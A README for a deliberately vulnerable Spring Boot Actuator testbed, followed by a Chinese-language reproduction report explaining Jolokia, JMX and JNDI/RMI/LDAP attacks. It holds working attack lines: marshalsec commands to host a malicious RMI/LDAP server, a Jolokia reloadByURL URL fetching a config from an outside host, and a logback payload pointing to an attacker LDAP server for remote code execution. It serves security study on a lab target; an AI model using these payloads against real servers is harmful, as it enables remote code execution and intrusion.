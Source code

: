 **Actuator Testbed**, a sample vulnerable application exposing Spring Boot Actuators

*Run locally (jdk 8 is recommended, by default binds to localhost:8090):*  
* `mvn install`
* `mvn spring-boot:run`

See https://www.veracode.com/blog/research/exploiting-spring-boot-actuators for attack payloads.

![screenshot](./screen.png)

- - -


<h2 align="center">spring boot actuator漏洞复现报告</h2>

### jolokia介绍

Jolokia是一个利用JSON通过Http实现JMX远程管理的开源项目。具有快速、简单等特点。除了支持基本的JMX操作之外，它还提供一些独特的特性来增强JMX远程管理如：批量请求，细粒度安全策略等。

那JMX又是什么呢？
JMX：（Java Management Extensions，即Java管理扩展）是一个为应用程序、设备、系统等植入管理功能的框架。

参考资料：

- [jolokia 学习心得](https://blog.csdn.net/yang382197207/article/details/12911855)
- [理解JMX之介绍和简单使用](https://blog.csdn.net/lmy86263/article/details/71037316)

### Spring Boot Acuator介绍

Spring Boot Acuator 可以帮助你监控和管理Spring Boot应用，比如健康检查、审计、统计和HTTP追踪等。所有的这些特性可以通过JMX或者HTTP endpoints来获得。也就是说 Acuator 可以通过原生的端点(endpoint)来执行，常用的原生端点有 health、env、info，对于web应用而言，可以通过 JMX 来获得，该JMX就是jolokia。

参考资料：

- [SpringBoot命令执行漏洞分析与PoC](https://www.secrss.com/articles/9862)
- [Springboot之actuator配置不当的漏洞利用](https://www.freebuf.com/news/193509.html)
  
  
### JNDI/RMI/LDAP 介绍

JNDI，JNDI即Java Naming and Directory Interface，翻译成中文就Java命令和目录接口，2016年的blackhat大会上web议题重点讲到，JNDI提供了很多实现方式，主要有RMI，LDAP，CORBA等。

RMI, Remote Method Invocation 是专为Java环境设计的远程方法调用机制，远程服务器实现具体的Java方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法。RMI依赖的通信协议为JRMP(Java Remote Message Protocol ，Java 远程消息交换协议)，该协议为Java定制，要求服务端与客户端都为Java编写。这个协议就像HTTP协议一样，规定了客户端和服务端通信要满足的规范。在RMI中对象是通过序列化方式进行编码传输的。

LDAP是开放的Internet标准，支持跨平台的Internet协议，在业界中得到广泛认可的，并且市场上或者开源社区上的大多产品都加入了对LDAP的支持，因此对于这类系统，不需单独定制，只需要通过LDAP做简单的配置就可以与服务器做认证交互。“简单粗暴”，可以大大降低重复开发和对接的成本。

marshalsec 是一个可以方便的开启 RMI 和 LDAP 服务的工具。
> 
开启rmi服务
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://VPS/ExportObject 1099
开启ldap服务
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.L

- - -

Logback库提供的“reloadByURL”操作允许我们从外部URL重新加载日志的记录配置。 对于我们来说，只需导航到以下内容即可触发：
http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml

### 工作机理

1. 攻击者请求上述URL执行'qos.logback.classic.jmx.JMXConfigurator'类提供的'reloadByURL'函数。

2. “reloadByURL”函数从 http://artsploit.com/logback.xml 下载新的配置并将其解析为Logback。 此恶意配置应具有以下内容：
```xml
<configuration>
  <insertFromJNDI env-entry-name="ldap://artsploit.com:1389/jndi" as="appName" />
</configuration>
```
3. 在易受攻击的服务器上解析此文件时，它会创建与“env-entry-name”参数值中指定的攻击者LDAP服务器的连接，从而导致JNDI进行解析。 恶意的LDAP服务器可以返回具有“引用”类型的对象，以触发在目标应用程序上执行字节码。 这篇MicroFocus研究论文很好地解释了JNDI攻击。 由于Tomcat是Spring Boot架构中的默认应用程序服务器，所以新的JNDI开发技术也适用于此。


参考资料：

- [JNDI/LADP 学习](https://blog.sari3l.com/posts/469de5e6/)